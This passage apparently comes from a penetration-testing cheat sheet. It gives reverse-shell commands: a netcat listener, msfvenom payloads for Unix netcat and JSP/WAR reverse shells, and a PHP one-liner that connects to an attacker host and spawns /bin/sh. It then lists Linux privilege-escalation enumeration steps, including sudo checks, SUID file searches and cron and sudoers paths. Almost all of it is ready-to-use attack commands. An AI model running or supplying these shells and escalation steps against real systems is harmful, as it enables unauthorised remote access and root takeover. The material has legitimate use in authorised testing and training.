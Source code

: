 `nc -nlvp 4445`

#### Msfvenom

Unix/Linux

`msfvenom -p cmd/unix/reverse_netcat lhost=<attackerIP> lport=4444 R`

{% hint style="info" %}
**R is flagged for the raw output of the shell**
{% endhint %}

WAR/JSP

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attackerIP> LPORT=4444 -f war > shell2.war`

#### PHP

`php -r '$sock=fsockopen("attackerIP",urPort);exec("/bin/sh -i &3 2>&3");'`

### Linux Privilege Escalation

First thing, **always** check sudo permissions

`sudo -l`

#### And kernel/system information

```text
uname -a
ls -la /etc | grep release
/etc/issue
/etc/*-release
/etc/lsb-release      # Debian based
/etc/redhat-release   # Redhat based
/proc/version
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-
```

#### Root processes

`ps aux | grep root`

#### SUID files

`find / -perm /4000 -type f -exec ls -lda {} \; 2>/dev/null`

#### Cronjobs - check for permissions and file contents

```text
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root

```